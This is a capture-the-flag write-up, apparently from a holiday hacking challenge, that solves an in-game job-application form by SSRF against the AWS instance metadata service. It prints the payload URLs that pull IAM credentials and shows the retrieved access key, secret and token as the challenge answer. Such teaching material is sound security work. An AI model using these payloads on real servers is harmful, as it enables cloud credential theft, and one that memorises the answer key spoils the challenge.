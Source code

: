 # Challenge 10: Now Hiring!

> What is the secret access key for the Jack Frost Tower job applications server? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

## The Hint

Heading over to the bathroom in Jack Frost Tower, we are greeted by Noxious:

> Hey, this is the executive restroom. Wasn't that door closed?
>
> I’m Noxious O’Dor. And I’ve gotta say, I think that Jack Frost is just messed up.
>
> I mean, I'm no expert, but his effort to "win" against Santa by going bigger and bolder seems bad.
>
> You know, I’m having some trouble with this IMDS exploration. I’m hoping you can give me some help in solving it.
>
> If you do, I’ll be happy to trade you for some hints on SSRF! I’ve been studying up on that and have some good ideas on how to attack it!

After opening the terminal, which we hope people wash their hands before using, we get the following prompt:

```bash
🎄🎄🎄 Prof. Petabyte here. In this lesson you'll continue to build your cloud asset skills,
🎄🎄🎄 interacting with the Instance Metadata Service (IMDS) using curl.
🎄🎄🎄
🎄🎄🎄 If you get stuck, run 'hint' for assitance.
🎄🎄🎄

───────────────────────────────────────────────────────────────────────────────────────────────

Are you ready to begin? [Y]es: y

The Instance Metadata Service (IMDS) is a virtual server for cloud assets at the IP address
169.254.169.254. Send a couple ping packets to the server.




───────────────────────────────────────────────────────────────────────────────────────────────
elfu@78ad54077bf9:~$
```

After sending a ping command to the specified IP, the prompt updates. It seems like this challenge will be an
interactive walkthrough. After walking through each task, this challenge completes successfully, and here's what Noxious
has to say:

> Phew! That is something extra! Oh, and you solved the challenge too? Great!
>
> Cloud assets are interesting targets for attackers. Did you know they automatically get IMDS access?
>
> I'm very concerned about the combination of SSRF and IMDS access.
>
> Did you know it's possible to harvest cloud keys through SSRF and IMDS attacks?
>
> Dr. Petabyte told us, "anytime you see URL as an input, test for SSRF."
>
> With an SSRF attack, we can make the server request a URL. This can reveal valuable data!
>
> The AWS documentation for IMDS is interesting reading.

## The Main Challenge

Let's head to the Frost Tower website and see what we're facing:

![Frost Tower Website](FrostTowerWebsite.png)

Clicking `Apply Now` leads us to an application page with some standard fields, and interestingly, a field to collect a
web accessible `NLBI` (Naughty List Background Investigation) report. Recalling our hint from Noxious, this seems like a
good place to try out some SSRF/IMDS attacks.  We can fill out some fake details, and in the `NLBI` field, place:

```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```

If the server uses this URL to fetch data, we may be able to retrieve metadata about the underlying AWS infrastructure.  Once we hit submit, we get the following acceptance page:

![Submission Accepted](Submission.png)

Interestingly, there seems to be a broken image being presented.  Let's grab that using wget and inspect the contents:

```bash
$ wget https://apply.jackfrosttower.com/images/test.jpg 2>/dev/null && cat test.jpg; echo
jf-deploy-role
```

So it seems like we have validated an SSRF attack vector which leverages IMDS.  Let's submit another application with the folloing URL:

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
```

And inspect the resulting image again:

```bash
$ wget https://apply.jackfrosttower.com/images/test2.jpg 2>/dev/null && cat test2.jpg; echo
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

We have successfully retrieved the answer to this challenge: `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`